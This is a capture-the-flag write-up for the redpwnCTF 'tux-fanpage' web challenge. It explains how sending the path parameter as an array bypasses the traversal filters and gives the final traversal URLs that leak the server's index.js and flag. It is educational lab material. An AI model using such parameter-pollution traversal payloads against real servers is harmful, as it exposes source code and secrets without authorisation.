

# tux-fanpage

## Problem

```
My friend made a fanpage for Tux; can you steal the source code for me?

Site: tux-fanpage.2020.redpwnc.tf
```

## Solution

***Note:** solved after competition end*

Accessing the [link](https://tux-fanpage.2020.redpwnc.tf/page?path=index.html) bring us to this site. Upon seeing the
`path` query in the URL, we can infer Path Traversal is somewhat involved.

The challenge also provides us with the [source code](files/tux/index.js). At the top of the file is the variable
 `const flag = '[REDACTED]'`. So likely we need to access the `index.js` file on the webpage to get the flag itself.

After reading the source code, there are 2 different functions that make this path traversal attack not so straightforward:

##### 1. preventTraversal()
This sanitises the `path` input by erasing any `../` characters in the query string.

```javascript
//Prevent directory traversal attack
function preventTraversal(dir){
    if(dir.includes('../')){
        let res = dir.replace('../', '')
        return preventTraversal(res)
    }

    //In case people want to test locally on windows
    if(dir.includes('..\\')){
        let res = dir.replace('..\\', '')
        return preventTraversal(res)
    }
    return dir
}
```

##### 2. strip()
This removes leading characters that are non-alphanumeric.
```javascript
//Strip leading characters
function strip(dir){
    const regex = /^[a-z0-9]$/im

    //Remove first character if not alphanumeric
    if(!regex.test(dir[0])){
        if(dir.length > 0){
            return strip(dir.slice(1))
        }
        return ''
    }

    return dir
}
```

We observe the `if` condition checks the first character of the string. But we assume that a string is provided. What if
we input an array of values instead? Perhaps the check would only process the first index and skip any values after that.
Indeed, using an array object bypasses the checks for `strip()` and `preventTraversal()`, allowing us to carry out path traversal.

##### prepare()
```
//Get absolute path from relative path
function prepare(dir){
    return path.resolve('./public/' + dir)
}
```
This method will concatenate all of the members of the array into a string but will also place a comma between each members string 
representation. For example, in this url `https://tux-fanpage.2020.redpwnc.tf/page?path[]=a&path[]=b` the path parameter's
string representation will look like this: `a,b`. Another example is [here](images/tux3.PNG).

The final URL input is:
```
https://tux-fanpage.2020.redpwnc.tf/page?path=1&path=%2F&path=%2F..%2F..%2F..%2Findex.js

alternate: https://tux-fanpage.2020.redpwnc.tf/page?path=a&path=/../../index.js
```

This reveals the local `index.js` on the server, where the `flag` variable is no longer redacted.



**Flag**: `flag{tr4v3rsal_Tim3}`

&nbsp;

#### References:
* [HTTP Parameter Pollution](https://security.stackexchange.com/a/127815)
* https://www.npmjs.com/package/qs#parsing-objects

